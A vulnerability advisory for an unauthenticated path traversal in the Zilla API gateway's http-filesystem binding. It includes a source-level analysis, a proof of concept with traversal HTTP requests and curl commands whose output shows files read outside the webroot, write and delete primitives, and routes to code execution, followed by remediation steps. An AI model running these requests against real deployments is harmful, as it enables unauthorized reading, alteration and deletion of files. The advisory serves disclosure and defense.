


# Zilla http-filesystem Binding Unauthenticated Path Traversal

| Field | Value |
|---|---|
| Project | aklivity/zilla |
| Vulnerability Type | Path Traversal (CWE-22), External Control of File Name or Path (CWE-73) |
| Severity | Critical — CVSS 3.1 Base Score: 9.8 |
| CVSS Vector | AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:H |
| Affected Versions | <= 2.4.7 (verified on 2.4.7, latest release as of 2026-10-05) |
| Authentication | None (default filesystem-binding deployment) |

### Summary

Zilla (aklivity/zilla), an event-driven API gateway, was confirmed vulnerable to unauthenticated server-side path traversal in its `http-filesystem` binding. HTTP request path data captured by greedy route patterns (for example `/{path}`, compiled to `(?<path>.+)`) is substituted into `with.path`/`with.directory` templates without validation, then joined to the configured filesystem root using `URI.resolve()` and `Path.resolve()` in `FileSystemServerFactory`. The chain lacks path normalization and root containment checks, so an unauthenticated remote attacker can read, create, overwrite, and delete arbitrary files reachable by the Zilla process.

The sink semantics were dynamically verified in a Java sandbox harness covering two independent bypass primitives: a relative traversal via `directory='../../'` escaping the tenant root, and an absolute `directory='/tmp/secret'` where `URI.resolve` adopts the absolute path and discards the configured root entirely. Both reached the out-of-root target `/tmp/secret/passwd`.

**Affected versions:** Zilla 2.4.7 (official `ghcr.io/aklivity/zilla:latest` image; the `FileSystemServerFactory` resolution chain is unchanged on `main` @ `27279b1f`).

### Details

The sink at runtime/binding-filesystem/src/main/java/io/aklivity/zilla/runtime/binding/filesystem/internal/stream/FileSystemServerFactory.java:211-221 joins client-controlled values with purely lexical operations:

```java
final URI resolvedRoot = serverRoot.resolve(location);
final FileSystem fileSystem = options.fileSystem(resolvedRoot);
...
final String relativeDir = beginEx.directory().asString();
final String resolvedDir = resolvedRoot.resolve(relativeDir != null ? relativeDir : "").getPath();
final String relativePath = beginEx.path().asString();

final Path path = fileSystem.getPath(resolvedDir).resolve(relativePath != null ? relativePath : "");
final String resolvedPath = path.toAbsolutePath().toString();
```

The full unvalidated chain:

- runtime/binding-http/.../stream/HttpServerFactory.java:177-178, 1221-1252 — request-line parsing populates the `:path` pseudo-header
- runtime/binding-http/.../util/HttpUtil.java:65-196 — `isPathValid` performs charset/syntax validation only; it does not reject `..` segments
- runtime/binding-http-filesystem/.../config/HttpFileSystemConditionMatcher.java:79-86 — greedy route capture `/{path}` compiles to `(?<path>.+)`
- runtime/binding-http-filesystem/.../config/HttpFileSystemWithResolver.java:86-110 — unvalidated `${params.xxx}` substitution into `with.path`/`with.directory` (`directoryMatcher.replaceAll(replacer)`); the result is passed through as `beginEx.directory`
- runtime/binding-http-filesystem/.../stream/HttpFileSystemProxyFactory.java:215-235, 1124-1133 — unfiltered propagation into `FileSystemBeginEx`

There is no `normalize()` and no `startsWith(root)` containment check before the `Files.*` operations at lines 244 (`Files.exists`), 469/1288 (`Files.newInputStream`, read), ~1304 (`Files.newByteChannel(CREATE, WRITE)`, create), 1055 (`Files.move(..., REPLACE_EXISTING)`, overwrite), and 1327 (`Files.delete`, delete). Both `getRawPath()` and `Path.resolve()` preserve `..` segments, and `URI.resolve` adopts absolute paths outright.

This is CWE-22: Improper Limitation of a Pathname to a Restricted Directory ('Path Traversal'), manifesting as relative traversal (CWE-23) plus absolute-path adoption.

### PoC

The typical vulnerable configuration maps a route parameter into the binding (official multi-tenant directory-mapping syntax):

```yaml
routes:
 - when:
 - path: /files/{tenant}/{path}
 with:
 directory: ${params.tenant}
 path: ${params.path}
```

#### Arbitrary file read via traversal (unauthenticated)

```http
GET /files/../../secret/passwd HTTP/1.1
Host: zilla.example.com
```

Percent-encoded variants (`/files/..%2F../secret/passwd`) are equally accepted because the greedy `.+` capture preserves the raw segment and only charset validation applies.

#### Java sandbox verification

Two scenarios reproducing `FileSystemServerFactory`'s exact resolution logic:

- Scenario B — `directory='../../'`, `path='secret/passwd'`: `resolvedRoot.resolve('../../')` escapes the root directory; final path `/tmp/secret/passwd` (`[VULN] B` triggered). This proves tenant-root escape in directory-mapping deployments.
- Scenario C — `directory='/tmp/secret'` (leading `/`): `URI.resolve` adopts the absolute path and discards the `location` root entirely; final path `/tmp/secret/passwd` (`[VULN] C` triggered).



#### Write/delete primitives

- `POST` with a traversal target creates a new file (no ETag precondition on the create path).
- `PUT` overwrites an arbitrary file after obtaining the target's ETag via a traversal `GET` (the `If-Match` optimistic-lock check is satisfied by the same traversal read).
- `DELETE` with a traversal target deletes an arbitrary file.

**Real-environment reproduction** (the product itself built from source/official image and run for this test):


Re-verified against the **official `ghcr.io/aklivity/zilla:latest` container** running the `http.filesystem` example binding (`location: /var/www/`), with a canary file planted outside the webroot at `/var/secret.txt`:

```
$ curl -s --path-as-is http://127.0.0.1:7114/index.html # baseline
<html>legit index served by zilla</html>

$ curl -s --path-as-is -i http://127.0.0.1:7114/../secret.txt
HTTP/1.1 200 OK
Content-Length: 33
TOPSECRET-zilla-traversal-canary

$ curl -s --path-as-is -i http://127.0.0.1:7114/../../etc/zilla/zilla.yaml
HTTP/1.1 200 OK
Content-Length: 771
---
name: example
bindings:
 north_tcp_server: ...
```

Raw dot-dot request paths pass through the `http-filesystem` mapping's `${params.path}` and escape the configured root: an arbitrary file anywhere reachable by the zilla process (including its own configuration) is returned with HTTP 200. URL-encoded variants are normalized (404) — the bypass requires the raw request path, which browsers and most clients normalize but raw sockets do not.



### Impact

An unauthenticated remote attacker can read arbitrary files readable by the Zilla process (credentials, private keys, `/proc/self/environ`), create files, overwrite existing files, and delete files — limited only by the process's filesystem permissions. In multi-tenant deployments where a route parameter maps to `with.directory`, the traversal breaks tenant isolation (cross-tenant read/write/delete). In containerized deployments, writing cron jobs, `authorized_keys`, or application configuration can escalate to remote code execution.

Estimated severity: Critical (CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:H, base score 9.8). The finding was established by source analysis of the repository plus Java-sandbox validation of the sink semantics; the official `examples/http.filesystem` configuration form is vulnerable in its default shape. Affected release versions and fixed status: to be confirmed.

### Remediation

1. At the sink (`FileSystemServerFactory.onAppMessage`), normalize the final joined path and enforce containment: after `path.normalize()`, verify `path.startsWith(normalizedRoot)`; reject out-of-root paths with 403.
2. In `HttpFileSystemWithResolver.resolve`, validate substitution results for both `directory` and `path`: reject values containing `..` segments and values beginning with `/`.
3. If absolute directory mapping must be supported, use `Path.startsWith` semantics rather than the absolute-replacement semantics of `URI.resolve`.
4. Apply validation to both fields - `directory` and `path` are both tainted by `${params}` substitution.
5. Document the risk of `${params}` injection into `with.directory` in official examples and recommend path-segment whitelisting of parameters as the default.

Patch status: to be confirmed (no vendor advisory available at the time of writing).
